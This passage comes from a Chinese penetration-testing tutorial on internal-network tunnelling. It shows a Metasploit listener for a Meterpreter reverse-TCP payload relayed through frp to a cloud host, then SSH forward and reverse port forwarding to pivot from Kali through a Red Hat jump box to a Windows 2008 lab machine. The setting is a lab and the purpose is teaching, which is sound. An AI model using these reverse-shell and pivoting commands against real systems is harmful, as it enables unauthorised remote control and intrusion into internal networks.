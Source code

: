   
⑦msf 开启监听  

```
use exploit/multi/handler
set payload windows/meterpreter/reverse\_tcp
set lhost 127.0.0.1#设置监听ip，必须和frpc中的local\_ip 一致
set lport 5000 #设置监听端口，与frpc中的local\_port一致
run
```

⑧靶机运行 payload，msf 上线。此时云主机显示连接信息：

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbL0D0ibWbx5icuXgofmKicgS0RyJVNTCDsroN4478BgCUJqxGib9XDxaf5BO0VKuREgEEc1eYvnxfLYg/640?wx_fmt=png)msf 上线效果：

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbL0D0ibWbx5icuXgofmKicgS0cgpRl1RZLcr6T8QibMxZuxatyBzgKof87cvFhF5DfdXflORDwibOmVzA/640?wx_fmt=png)  

```
#参考文章：
https://blog.csdn.net/qq\_38228830/article/details/85955955
```

**二、SSH 代理穿透内网**  

===================

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbL0D0ibWbx5icuXgofmKicgS0ZObSLalnyoib7iaWfFoo2DxOiatK5Xa5nq6Z0ZfxUWXic2b3MEQT03BenA/640?wx_fmt=png)

①假设 kali 无法访问 Win08（实际 kali 为 nat 模式是可以访问所有网段的）  
②利用红帽进行端口转发使 kali 能够访问到 Windows 2008  

**1.SSH 正向代理**  

-----------------

①kali(192.168.198.128) 连接红帽 192.168.198.131，同时将内网主机 192.168.1.10 的 8001 端口转发到本地 kali 192.168.198.128 的 8001 端口上

```
ssh -L 192.168.198.128:8001:192.168.1.10:8001 root@192.168.198.131 -p 22
#-L后面的IP是kali本地IP，可省略不写
#当跳板机红帽的ssh端口为默认端口22时，也可省略不写
#需要知道红帽的账号及密码
```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbL0D0ibWbx5icuXgofmKicgS0ooiarMibxDxElrzgO2XPl5ELcQE0A6njsfNMJln68p0kgibHc4EXVqZTA/640?wx_fmt=png)  

②转发成功，这样 kali 在访问本机的 8001 端口, 通过 SSH 服务器红帽端口转发后, 实际访问的就是服务器 Windows2008 的 8001 端口。注意，在进行转发的时候语句 L 后面的 IP 省略不写，那么访问 127.0.0.1:8001 即可，如果写了 IP，就必须访问 IP 地址：192.168.198.128:8001  
![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbL0D0ibWbx5icuXgofmKicgS0QAfCLGpibJgFbqvU8IgUUIvBd2uphPy0mkZhCk7a4ujppxZzvvicyO4A/640?wx_fmt=png)

**2.ssh 反向代理**
--------------

将 kali 本地端口镜像转发到红帽，所有访问 SSH 服务器（红帽）的镜像端口即是访问 kali 的端口。

①  kali 开启 80 http 服务
